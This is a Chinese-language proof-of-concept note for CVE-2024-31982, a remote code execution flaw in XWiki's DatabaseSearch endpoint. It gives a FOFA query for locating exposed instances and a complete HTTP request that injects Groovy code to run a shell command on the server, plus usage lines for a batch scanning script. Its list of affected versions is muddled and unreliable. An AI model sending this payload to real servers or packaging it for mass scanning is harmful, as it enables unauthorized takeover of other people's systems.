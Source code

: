 # CVE-2024-31982 XWiki DatabaseSearch 远程代码执行漏洞

### 1.漏洞描述

XWiki 是一个由 Java 编写的基于 LGPL 协议发布的开源 wiki 和应用平台。它的开发平台特性允许创建协作式 Web 应用，同时也提供了构建于平台之上的打包应用。该系统/bin/get/Main/DatabaseSearch接口处存在远程代码执行漏洞，未经授权的攻击者可执行任意代码，会导致服务器失陷，请及时修复。

### 2.影响版本

XWiki平台  2.4-milestone-1及之前的版本4.10.20、15.5.4和15.10-rc-1版本

### 3.fofa语法

```plain
body="data-xwiki-reference"
```

### 4.漏洞复现

```plain
GET /bin/get/Main/DatabaseSearch?outputSyntax=plain&text=%7D%7D%7D%7B%7Basync%20async=false%7D%7D%7B%7Bgroovy%7D%7Dthrow%20new%20Exception%28%27id%27.execute%28%29.text%29%3B%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D%20 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719921417561-fa806925-3ad8-4db4-9f9e-99e381cd0eef.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_937%2Climit_0)

### 5.py脚本

```plain
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```